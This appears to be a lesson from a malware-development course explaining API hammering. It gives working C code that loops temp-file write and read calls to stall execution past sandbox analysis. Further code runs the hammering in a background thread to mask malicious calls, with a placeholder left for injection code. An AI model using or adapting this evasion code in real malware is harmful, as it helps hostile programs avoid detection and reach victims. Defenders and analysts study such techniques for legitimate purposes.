


Introduction
API hammering is a sandbox bypass technique where random WinAPIs are rapidly called to delay the execution of a program. It can also be used to obfuscate the call stack of the running threads in the implementation. This means that the malicious function calls in the implementation's logic will be hidden with random benign WinAPIs calls.
This module will demonstrate API hammering in two ways. The first method performs API hammering in a background thread that calls different WinAPIs from the main thread, where the malicious code is being executed. The second method uses API hammering to delay execution via time-consuming operations.
I/O functions
API hammering can utilize any WinAPIs, however, this module will be using three WinAPIs below.
These WinAPIs were chosen due to their ability to consume considerable processing time when dealing with big amounts of data, making them suitable for API hammering.
API Hammering Process
CreateFileW will be used to create a temporary file in the Windows temp folder. This folder typically stores .tmp files that are created by the Windows OS or third-party applications. These temporary files are often used to store temporary data during computational processes like installing an application or downloading files from the internet. When the tasks are completed, these files are often then deleted.
After the .tmp file is created, a randomly generated buffer with a fixed size will be written to it using the WriteFile WinAPI call. When that is done, the handle of the file is closed and re-opened again with CreateFileW. This time, however, a special flag will be used to mark the file for deletion once its handle is closed.
Before closing the handle again, ReadFile will be used to read the data that was written earlier to a local buffer. That buffer will then be cleaned and freed. And finally, the file handle is closed resulting in the deletion of the file.
One can clearly see that the tasks above are not meaningful yet time-consuming. Furthermore, to increase time wastage, all of the above will be inside a loop.
The ApiHammering function below performs the steps outlined above. The only parameter the function requires is dwStress which is the number of times to repeat the entire process.
The remainder of the code should look familiar except for the GetTempPathW WinAPI function which is used to retrieve the path of the temp directory, C:\Users\<username>\AppData\Local\Temp. After that, the filename, TMPFILE, is appended to the path and passed to the CreateFileW function.
// File name to be created
#define TMPFILE L"MaldevAcad.tmp"
BOOL ApiHammering(DWORD dwStress) {
WCHAR szPath [MAX_PATH * 2],
szTmpPath [MAX_PATH];
HANDLE hRFile = INVALID_HANDLE_VALUE,
hWFile = INVALID_HANDLE_VALUE;
DWORD dwNumberOfBytesRead = NULL,
dwNumberOfBytesWritten = NULL;
PBYTE pRandBuffer = NULL;
SIZE_T sBufferSize = 0xFFFFF; // 1048575 byte
INT Random = 0;
// Getting the tmp folder path
if (!GetTempPathW(MAX_PATH, szTmpPath)) {
printf("[!] GetTempPathW Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Constructing the file path
wsprintfW(szPath, L"%s%s", szTmpPath, TMPFILE);
for (SIZE_T i = 0; i < dwStress; i++){
// Creating the file in write mode
if ((hWFile = CreateFileW(szPath, GENERIC_WRITE, NULL, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_TEMPORARY, NULL)) == INVALID_HANDLE_VALUE) {
printf("[!] CreateFileW Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Allocating a buffer and filling it with a random value
pRandBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sBufferSize);
Random = rand() % 0xFF;
memset(pRandBuffer, Random, sBufferSize);
// Writing the random data into the file
if (!WriteFile(hWFile, pRandBuffer, sBufferSize, &dwNumberOfBytesWritten, NULL) || dwNumberOfBytesWritten != sBufferSize) {
printf("[!] WriteFile Failed With Error : %d \n", GetLastError());
printf("[i] Written %d Bytes of %d \n", dwNumberOfBytesWritten, sBufferSize);
return FALSE;
}
// Clearing the buffer & closing the handle of the file
RtlZeroMemory(pRandBuffer, sBufferSize);
CloseHandle(hWFile);
// Opening the file in read mode & delete when closed
if ((hRFile = CreateFileW(szPath, GENERIC_READ, NULL, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_TEMPORARY | FILE_FLAG_DELETE_ON_CLOSE, NULL)) == INVALID_HANDLE_VALUE) {
printf("[!] CreateFileW Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Reading the random data written before
if (!ReadFile(hRFile, pRandBuffer, sBufferSize, &dwNumberOfBytesRead, NULL) || dwNumberOfBytesRead != sBufferSize) {
printf("[!] ReadFile Failed With Error : %d \n", GetLastError());
printf("[i] Read %d Bytes of %d \n", dwNumberOfBytesRead, sBufferSize);
return FALSE;
}
// Clearing the buffer & freeing it
RtlZeroMemory(pRandBuffer, sBufferSize);
HeapFree(GetProcessHeap(), NULL, pRandBuffer);
// Closing the handle of the file - deleting it
CloseHandle(hRFile);
}
return TRUE;
}Delaying Execution Via API Hammering
To delay execution with API hammering, calculate how much time the ApiHammering function requires to execute a certain number of cycles. To do so, use the GetTickCount64 WinAPI to measure the time before and after the ApiHammering call. In this example, the number of cycles will be 1000.
int main() {
DWORD T0 = NULL,
T1 = NULL;
T0 = GetTickCount64();
if (!ApiHammering(1000)) {
return -1;
}
T1 = GetTickCount64();
printf(">>> ApiHammering(1000) Took : %d MilliSeconds To Complete \n", (DWORD)(T1 - T0));
printf("[#] Press <Enter> To Quit ... ");
getchar();
return 0;
}The output shows that 1000 cycles require about 5.1 seconds on the current machine. The number will slightly differ depending on the hardware specs of the target system.

Convert Seconds To Cycles
The SECTOSTRESS macro below can be used to convert the number of seconds, i, to the number of cycles. Since 1000 loop cycles took 5.157 seconds, each one second will take 1000 / 5.157 = 194. The output of the macro should be used as a parameter for the ApiHammering function.
#define SECTOSTRESS(i)( (int)i * 194 )Delaying Execution Via API Hammering Code
The code snippet below shows the main function using the previously mentioned technique.
int main() {
DWORD T0 = NULL,
T1 = NULL;
T0 = GetTickCount64();
// Delay execution for '5' seconds worth of cycles
if (!ApiHammering(SECTOSTRESS(5))) {
return -1;
}
T1 = GetTickCount64();
printf(">>> ApiHammering Delayed Execution For : %d \n", (DWORD)(T1 - T0));
printf("[#] Press <Enter> To Quit ... ");
getchar();
return 0;
}Demo
The image below is the output of the above code. ApiHammering was able to delay the execution for 5016 milliseconds, which is approximately the same value passed to the SECTOSTRESS macro.

API Hammering In a Thread
The ApiHammering function can be executed in a thread that runs in the background until the end of the main thread's execution. This can be done using the CreateThread WinAPI. The ApiHammering function should be passed a value of -1 which makes it loop over the process infinitely.
The main function shown below creates a new thread and calls the ApiHammering function with a value of -1.
int main() {
DWORD dwThreadId = NULL;
if (!CreateThread(NULL, NULL, ApiHammering, -1, NULL, &dwThreadId)) {
printf("[!] CreateThread Failed With Error : %d \n", GetLastError());
return -1;
}
printf("[+] Thread %d Was Created To Run ApiHammering In The Background\n", dwThreadId);
/*
injection code can be here
*/
printf("[#] Press <Enter> To Quit ... ");
getchar();
return 0;
}